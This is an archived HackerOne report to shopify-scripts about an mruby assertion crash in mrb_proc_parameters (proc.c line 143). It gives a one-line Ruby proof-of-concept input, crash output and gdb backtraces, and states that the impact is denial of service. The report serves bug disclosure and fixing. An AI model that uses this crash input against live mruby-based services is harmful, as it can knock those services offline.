 # Aborted - proc.c - line:143

## Report Details
- **Report ID**: 199764
- **URL**: https://hackerone.com/reports/199764
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-01-19T22:31:45.151Z
- **Disclosed**: 2017-03-09T01:24:48.039Z

## Reporter
- **Username**: ston3
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
PoC
-------------------

The following code triggers the bug (attached as test_proc_143.rb):

	l([[]],Proc.new{|b,|}.parameters)

mirb
-------------------

	x@x:~/Desktop/test/mruby-engine/ext/mruby_engine/mruby/bin$ ./mirb test_proc_143 
	mirb - Embeddable Interactive Ruby Shell

	mirb: /home/x/Desktop/test/mruby-engine/ext/mruby_engine/mruby/mrbgems/mruby-proc-ext/src/proc.c:143: mrb_proc_parameters: Assertion `i < (irep->nlocals-1)' failed.
	Aborted (core dumped)

mirb - Debug
--------------------

	(gdb) r test_proc_143 
	Starting program: /home/x/Desktop/test/mruby-engine/ext/mruby_engine/mruby/bin/mirb test_proc_143
	mirb - Embeddable Interactive Ruby Shell

	mirb: /home/x/Desktop/test/mruby-engine/ext/mruby_engine/mruby/mrbgems/mruby-proc-ext/src/proc.c:143: mrb_proc_parameters: Assertion `i < (irep->nlocals-1)' failed.

	Program received signal SIGABRT, Aborted.
	0x00007ffff7744f79 in __GI_raise (sig=sig@entry=6) at ../nptl/sysdeps/unix/sysv/linux/raise.c:56
	56	../nptl/sysdeps/unix/sysv/linux/raise.c: No such file or directory.
	(gdb) bt
	#0  0x00007ffff7744f79 in __GI_raise (sig=sig@entry=6) at ../nptl/sysdeps/unix/sysv/linux/raise.c:56
	#1  0x00007ffff7748388 in __GI_abort () at abort.c:89
	#2  0x00007ffff773de36 in __assert_fail_base (fmt=0x7ffff788f718 "%s%s%s:%u: %s%sAssertion `%s' failed.\n%n", assertion=assertion@entry=0x4b57c9 "i < (irep->nlocals-1)", 
		file=file@entry=0x4b5818 "/home/x/Desktop/test/mruby-engine/ext/mruby_engine/mruby/mrbgems/mruby-proc-ext/src/proc.c", line=line@entry=143, function=function@entry=0x4b5880 <__PRETTY_FUNCTION__.4653> "mrb_proc_parameters")
		at assert.c:92
	#3  0x00007ffff773dee2 in __GI___assert_fail (assertion=assertion@entry=0x4b57c9 "i < (irep->nlocals-1)", file=file@entry=0x4b5818 "/home/x/Desktop/test/mruby-engine/ext/mruby_engine/mruby/mrbgems/mruby-proc-ext/src/proc.c", 
		line=line@entry=143, function=function@entry=0x4b5880 <__PRETTY_FUNCTION__.4653> "mrb_proc_parameters") at assert.c:101
	#4  0x000000000045b896 in mrb_proc_parameters (mrb=0x6ce010, self=...) at /home/x/Desktop/test/mruby-engine/ext/mruby_engine/mruby/mrbgems/mruby-proc-ext/src/proc.c:143
	#5  0x0000000000408603 in mrb_vm_exec (mrb=mrb@entry=0x6ce010, proc=<optimized out>, proc@entry=0x6d5cc0, pc=0x72daa8) at /home/x/Desktop/test/mruby-engine/ext/mruby_engine/mruby/src/vm.c:1174
	#6  0x000000000040eb9c in mrb_vm_run (mrb=mrb@entry=0x6ce010, proc=proc@entry=0x6d5cc0, self=..., stack_keep=stack_keep@entry=0) at /home/x/Desktop/test/mruby-engine/ext/mruby_engine/mruby/src/vm.c:772
	#7  0x0000000000402e09 in main (argc=<optimized out>, argv=<optimized out>) at /home/x/Desktop/test/mruby-engine/ext/mruby_engine/mruby/mrbgems/mruby-bin-mirb/tools/mirb/mirb.c:549

mruby
--------------------

	x@x:~/Desktop/test/mruby-engine/ext/mruby_engine/mruby/bin$ ./mruby test_proc_143 
	mruby: /home/x/Desktop/test/mruby-engine/ext/mruby_engine/mruby/mrbgems/mruby-proc-ext/src/proc.c:143: mrb_proc_parameters: Assertion `i < (irep->nlocals-1)' failed.
	Aborted (core dumped)

mruby - Debug
--------------------
	
	(gdb) r test_proc_143 
	Starting program: /home/x/Desktop/test/mruby-engine/ext/mruby_engine/mruby/bin/mruby test_proc_143
	mruby: /home/x/Desktop/test/mruby-engine/ext/mruby_engine/mruby/mrbgems/mruby-proc-ext/src/proc.c:143: mrb_proc_parameters: Assertion `i < (irep->nlocals-1)' failed.

	Program received signal SIGABRT, Aborted.
	0x00007ffff7744f79 in __GI_raise (sig=sig@entry=6) at ../nptl/sysdeps/unix/sysv/linux/raise.c:56
	56	../nptl/sysdeps/unix/sysv/linux/raise.c: No such file or directory.
	(gdb) bt
	#0  0x00007ffff7744f79 in __GI_raise (sig=sig@entry=6) at ../nptl/sysdeps/unix/sysv/linux/raise.c:56
	#1  0x00007ffff7748388 in __GI_abort () at abort.c:89
	#2  0x00007ffff773de36 in __assert_fail_base (fmt=0x7ffff788f718 "%s%s%s:%u: %s%sAssertion `%s' failed.\n%n", assertion=assertion@entry=0x4b4fc9 "i < (irep->nlocals-1)", 
		file=file@entry=0x4b5018 "/home/x/Desktop/test/mruby-engine/ext/mruby_engine/mruby/mrbgems/mruby-proc-ext/src/proc.c", line=line@entry=143, function=function@entry=0x4b5080 <__PRETTY_FUNCTION__.4653> "mrb_proc_parameters")
		at assert.c:92
	#3  0x00007ffff773dee2 in __GI___assert_fail (assertion=assertion@entry=0x4b4fc9 "i < (irep->nlocals-1)", file=file@entry=0x4b5018 "/home/x/Desktop/test/mruby-engine/ext/mruby_engine/mruby/mrbgems/mruby-proc-ext/src/proc.c", 
		line=line@entry=143, function=function@entry=0x4b5080 <__PRETTY_FUNCTION__.4653> "mrb_proc_parameters") at assert.c:101
	#4  0x000000000045b0b6 in mrb_proc_parameters (mrb=0x6ce010, self=...) at /home/x/Desktop/test/mruby-engine/ext/mruby_engine/mruby/mrbgems/mruby-proc-ext/src/proc.c:143
	#5  0x0000000000408a23 in mrb_vm_exec (mrb=mrb@entry=0x6ce010, proc=<optimized out>, proc@entry=0x6d5c90, pc=0x72daa8) at /home/x/Desktop/test/mruby-engine/ext/mruby_engine/mruby/src/vm.c:1174
	#6  0x000000000040efbc in mrb_vm_run (mrb=mrb@entry=0x6ce010, proc=proc@entry=0x6d5c90, self=..., self@entry=..., stack_keep=0) at /home/x/Desktop/test/mruby-engine/ext/mruby_engine/mruby/src/vm.c:772
	#7  0x000000000040f2b6 in mrb_top_run (mrb=mrb@entry=0x6ce010, proc=proc@entry=0x6d5c90, self=..., stack_keep=stack_keep@entry=0) at /home/x/Desktop/test/mruby-engine/ext/mruby_engine/mruby/src/vm.c:2490
	#8  0x000000000043fa51 in mrb_load_exec (mrb=mrb@entry=0x6ce010, p=<optimized out>, c=c@entry=0x70b260) at /home/x/Desktop/test/mruby-engine/ext/mruby_engine/mruby/mrbgems/mruby-compiler/core/parse.y:5755
	#9  0x000000000044161f in mrb_load_file_cxt (mrb=mrb@entry=0x6ce010, f=<optimized out>, c=c@entry=0x70b260) at /home/x/Desktop/test/mruby-engine/ext/mruby_engine/mruby/mrbgems/mruby-compiler/core/parse.y:5764
	#10 0x00000000004026d3 in main (argc=<optimized out>, argv=0x7fffffffe018) at /home/x/Desktop/test/mruby-engine/ext/mruby_engine/mruby/mrbgems/mruby-bin-mruby/tools/mruby/mruby.c:232

sandbox
--------------------

	x@x:~/Desktop/test/mruby-engine/bin$ ./sandbox test_proc_143 
	ruby: /home/x/Desktop/test/mruby-engine/ext/mruby_engine/mruby/mrbgems/mruby-proc-ext/src/proc.c:143: mrb_proc_parameters: Assertion `i < (irep->nlocals-1)' failed.
	Aborted (core dumped)

Impact
--------------------

It can cause DoS.

## Attachments
- test_proc_143.rb

